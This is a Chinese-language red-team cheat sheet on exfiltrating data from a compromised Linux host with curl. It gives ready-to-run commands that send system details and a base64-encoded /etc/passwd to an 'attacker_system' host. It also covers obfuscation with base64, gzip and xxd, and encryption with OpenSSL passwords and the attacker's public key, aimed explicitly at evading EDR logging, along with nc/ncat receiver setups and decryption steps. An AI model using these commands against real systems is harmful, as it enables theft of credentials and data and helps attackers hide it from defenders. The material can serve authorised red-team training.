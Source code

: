 ```yaml
---
title: Curl命令数据外传技巧
tags:
- Red Team能力建设
- 数据外传 Exfiltration
---
```


# 基本形式
```bash
  受控机
  curl -d `uname -a` http://attacker_system/
  
  接收机
  nc -lp 80
  POST / HTTP/1.1
  Host: attacker_system
  User-Agent: curl/7.68.0
  Accept: */*
  Content-Length: 31
  Content-Type: application/x-www-form-urlencoded
  
  Linux 25b01d656003 5.10.47-linuxkit #1 SMP Sat Jul 3 21:51:47 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
  
```

# 各种混淆
```
  受控机
  curl -d `cat /etc/passwd | base64 -w0` http://attacker_system/
  curl http://attacker_system/`uname -a | base64 -w0`
  curl http://attacker_system/ -H  "Cookie: `uname -a | base64 -w0`"
  curl -d `uname -a | gzip | base64 -w0` http://attacker_system
  curl -d `uname -a | gzip | xxd -ps | tr -d '\n'` http://attacker_system/
```

# OpenSSL加密
```
  受控机
  curl -d `uname -a | openssl enc -pass 'pass:EncryptMe' -md sha256 -aes-256-cbc -pbkdf2 -a -e` http://attacker_system/
  
  接收机
  nc -lp 80
  POST / HTTP/1.1
  Host: attacker_system
  User-Agent: curl/7.68.0
  Accept: */*
  Content-Length: 172
  Content-Type: application/x-www-form-urlencoded
  
  U2FsdGVkX18/C90HEEv7tvzvU7JM/FRUQ9cGlhC5QporjmRYBwMLNc/VBbrOQFqp6GPQRu1T99GfwZUwDgOU8sItii//UAs4WoAxpVRcAg3cHOYKJ+ZUA3X4lS2Af/2J3zPKHeL6E3559Ife9X0hBk5zjfSfmFM00es2DTVYm+Q=
```

如上所示，我们使用curlPOST 对uname -a 进行数据外传，使用管道将 stdout 发送到openssl，使用密码加密。但需要注意的是，这种方法会在进程树的命令行参数中显示密码，某些EDR可能会捕获这些参数以供以后分析。最后，我们对输出进行base64编码并发送请求。以下是openssl的一些参数解释：

- enc该命令允许我们使用密码来加密数据。
- -pass该参数允许我们指定密码来加密数据。
- -md用于从提供的密码创建密钥的消息摘要算法。OpenSSL 可能会根据安装默认使用不同的消息摘要算法，为了避免解密出现问题，最好专门设置此参数。
- -aes-256-cbc我们希望用来加密数据的算法。
- -pbkdf2使用具有默认迭代次数（通常为 10000 次迭代）的 PBKDF2 算法。这是一个比默认选项 openssl 提供的更安全的密钥派生过程。需要注意的是，这个标志只在 OpenSSL >= 1.1.1 中可用。
- -a将输出编码为 Base64。这让我们可以base64 -w0像之前所做的那样跳过管道。
- -e最后，这个标志告诉 openssl 加密传递给它的数据。在这种情况下，数据来自标准输入。
- 使用以下方法进行解密

  ```
    openssl enc -pass 'pass:EncryptMe' -md sha256 -aes-256-cbc -pbkdf2 -a -d <<< U2FsdGVkX18/C90HEEv7tvzvU7JM/FRUQ9cGlhC5QporjmRYBwMLNc/VBbrOQFqp6GPQRu1T99GfwZUwDgOU8sItii//UAs4WoAxpVRcAg3cHOYKJ+ZUA3X4lS2Af/2J3zPKHeL6E3559Ife9X0hBk5zjfSfmFM00es2DTVYm+Q= 
    Linux 25b01d656003 5.10.47-linuxkit #1 SMP Sat Jul 3 21:51:47 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
  ```

## 那么如何将进程树命令行参数中的密码隐藏呢？我们可以使用自己的公钥进行加密
```
  受控机
  curl -k -d `openssl s_client -connect attacker_system:443 \
  | openssl x509 -pubkey -noout  > /tmp/f; uname -a \
  | openssl rsautl -inkey /tmp/f -pubin -encrypt \
  | base64 -w0; rm /tmp/f` https://attacker_system/
  
  接收机
  ncat -lp 443 -k --ssl --ssl-cert pub.crt --ssl-key priv.key
  POST / HTTP/1.1
  Host: attacker_system
  User-Agent: curl/7.68.0
  Accept: */*
  Content-Length: 344
  Content-Type: application/x-www-form-urlencoded
  
  HmuUgK05Sku7xBjBkxDeakgDnb9CkJIX5EYIC1oxOnSHxBzVG9hGh4BQeX9VwEp5OYxLX8mRNXCxmbHANdwy3/Bga4Mp+GFVhUZKr8haKHVrNa1dtfEvHlmDaMfESwcZy0Llmvl8+skOescVb6lSZLS/09HIAVdfyQo5DFM59KKGm9XZEMsXUAvR+1AmB5nsvIAKqBQY1nyr5IJc6+pzSK8d1gxTCTL/0D9gM2xnr6ZXmgthPogH2dy8olZLlYT+q6J/3ZpDijm1W4LyKZHO0WLjdS0mem9to/6GAi8cWZTySV+BvddF3jmkA8lfgOtL09JpjC9QrJ5sT7Ay+vDWuA==
```

- 这次使用`ncat`是为了使用其内置的 SSL 解密功能进行解密，相关参数解释如下：
  - 从攻击系统中提取公钥并保存到文件中openssl s_client -connect attacker_system:443 | openssl x509 -pubkey -noout > /tmp/f
  - 执行所需的命令并使用 OpenSSL 和之前提取的公钥进行加密，然后对数据进行 base64 编码uname -a | openssl rsautl -inkey /tmp/f -pubin -encrypt | base64 -w0;
  - 删除包含公钥的文件rm /tmp/f
  - curl通过 HTTPS 将命令中的 base64 输出发布到攻击系统。

- 我们现在可以像这样解码和解密结果：
  ```
    base64 -d <<< SxYwWIC7ceUtsPGo3ETSPaCTMW9AdXWuyAR01AIBu0LLlHWDVa5uSP3J86vyyePaoybuoAEgvit5HQDNfL8fS1lSix/enb9UVCAn7hp/dZ9RGrtzqIRWFgHm0O4M69S1bHT1bn/3F0EiCZ53blulegKnxaCmSM64aO6c12dpJWD7A8QcJwG4R5J/owE9LbR5rJkmvTCf3bAD9FkvX5vD8GJmJkLhjaYa+mB6VZ67FcJdzUykfGJPsWOg5ju8nCTasxgjPR7Wsv7EXRoV7uia9u1yjfIpb5DloR2lqhfihvs4vuCmm23pJNZyIikSL0FyOGgQSps21mP0ri3UfRIryw== \
        | openssl rsautl -inkey priv.key -decrypt
        
    Linux 25b01d656003 5.10.47-linuxkit #1 SMP Sat Jul 3 21:51:47 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
  ```

# 参考资料
  - [https://medium.com/maverislabs/bash-tricks-for-command-execution-and-data-extraction-over-http-s-ca76e9c80933](https://medium.com/maverislabs/bash-tricks-for-command-execution-and-data-extraction-over-http-s-ca76e9c80933)